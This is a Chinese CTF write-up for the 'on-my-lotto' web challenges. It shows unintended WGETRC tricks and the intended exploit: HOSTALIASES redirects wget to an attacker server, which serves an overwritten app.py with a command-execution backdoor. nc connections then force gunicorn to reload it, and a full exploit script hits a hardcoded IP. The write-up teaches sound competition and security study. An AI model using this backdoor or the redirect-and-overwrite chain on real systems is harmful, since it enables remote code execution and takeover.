 # web-on-my-lotto&revenge-ZH

## 写在前面的话

因为考虑不周全，这个题可能没给师傅们带来比较好的做题体验，实在抱歉，这里想就这个题给师傅们做一些解释。第一个题被非预期以后，在改revenge的时候思考了很多种方式，比如把`WGETRC`放到黑名单里面，或者是给附件用第一个题flag的加锁，但为了不泄露第一个题的解法，最终我还是选择不把`WGETRC`ban掉，只是把获取flag的方式限制为了必须要RCE才能获取，但同时也由于一些权限管理等问题，使得利用`WGETRC`同样可以解决revenge，这里确实是我没考虑周全，但确实也从师傅们的非预期学到了很多东西，下面我将还原一下我已知的非预期和预期解，希望能带给你新的知识。:)

## 非预期解

### on-my-lotto

* 利用`WGETRC`设置`http_proxy`代理到自己服务器，下载一个和`forecast`一样的文件，可以获得flag。

* 利用`PATH`，将`lotto_result.txt`保存到其他路径，此时获得的`lotto_result.txt`为`result`，通过上传一个`result`字符串可以获得flag。

### on-my-lotto-revenge

* 利用`WGETRC`配合`http_proxy`和`output_document`，覆盖本地的wget应用，然后利用wget完成RCE。

* 利用`WGETRC`配合`http_proxy`和`output_document`，写入SSTI到templates目录，利用SSTI完成RCE。

## 预期解

根据附件可以在本地搭建题目运行环境，根据源码中`app.py`所述逻辑，当上传的`forecast.txt`文件内容与`lotto_result.txt`文件内容相符时，可以获得flag，lotto容器中生成`lotto_result.txt`使用的是`secrets`库，该库函数使用安全的随机数生成方法，理论上不存在被预测的风险。

发现在进行lotto猜测的时候可以运行输入一次环境变量，该环境变量会被传递给`os.system('wget --content-disposition -N lotto')`，同时环境变量会经过`safe_check`函数检查

```
def safe_check(s):
    if 'LD' in s or 'HTTP' in s or 'BASH' in s or 'ENV' in s or 'PROXY' in s:
        return False
    return True
```

一些常见的环境变量利用方法都已经被禁止，通过翻阅Linux环境变量文档`http://www.scratchbox.org/documentation/general/tutorials/glibcenv.html`在Network Settings中发现有`HOSTALIASES`可以设置shell的hosts加载文件，利用`/forecast`路由可以上传待加载的hosts文件，将`wget --content-disposition -N lotto`发向lotto的请求转发到自己的域名例如如下hosts文件

```
# hosts
lotto mydomain.com
```
同时注意到wget请求添加了`--content-disposition -N`参数，说明请求的保存文件名将由服务方提供方指定的文件名决定，并可以覆盖原有的文件，那我们在自己的`mydomain.com`域名的80端口提供一个文件下载的功能，将返回文件名设置为`app.py`就可以覆盖当前题目的`app.py`文件，参考POC

```
from flask import Flask, request, make_response
import mimetypes

app = Flask(__name__)

@app.route("/")
def index():

    r = '''
from flask import Flask,request
import os


app = Flask(__name__)
@app.route("/test", methods=['GET'])
def test():
    a = request.args.get('a')
    a = os.popen(a)
    a = a.read()
    return str(a)

if __name__ == "__main__":
    app.run(debug=True,host='0.0.0.0', port=8080)
'''

    response = make_response(r)
    response.headers['Content-Type'] = 'text/plain'
    response.headers['Content-Disposition'] = 'attachment; filename=app.py'
    return response



if __name__ == "__main__":
    app.run(debug=True,host='0.0.0.0', port=8080)
```

此时发现已经覆盖了题目的`app.py`，但并不能直接RCE，因为题目使用gunicorn部署，`app.py`在改变的情况下并不会实时加载。但gunicorn使用一种`pre-forked worker`的机制，当某一个worker超时以后，就会让gunicorn重启该worker，让worker超时的的POC如下

```
timeout 50 nc ip 53000 &
timeout 50 nc ip 53000 &
timeout 50 nc ip 53000
```

最终worker重新加载`app.py`，就可以完成RCE了，读取flag即可。参考完整POC如下


```
# exp.py

import requests
import os
import time
import subprocess

s = requests.session()

base_url = 'http://124.223.208.221:53000/'
url_upload = base_url + 'forecast'
proxies = {
    'http': 'http://127.0.0.1:8080'
}

r = s.post(url=url_upload, proxies=proxies, files={"file":("hosts", open('hosts', 'rb'))})
print(r.text)

url_env = base_url + 'lotto'
data = {
    'lotto_key': 'HOSTALIASES',
    'lotto_value': '/app/guess/forecast.txt'
}
r = s.post(url=url_env, data=data)

subprocess.Popen('./exploit.sh', shell=True)
# os.system('./exploit.sh')
for i in range(1, 53):
    print(i)
    time.sleep(1)

while True:
    url_shell = base_url + 'test?a=env'
    print(url_shell)
    r = s.get(url_shell)
    print(r.text)
    if '*ctf' in r.text:
        print(r.text)
        break
```
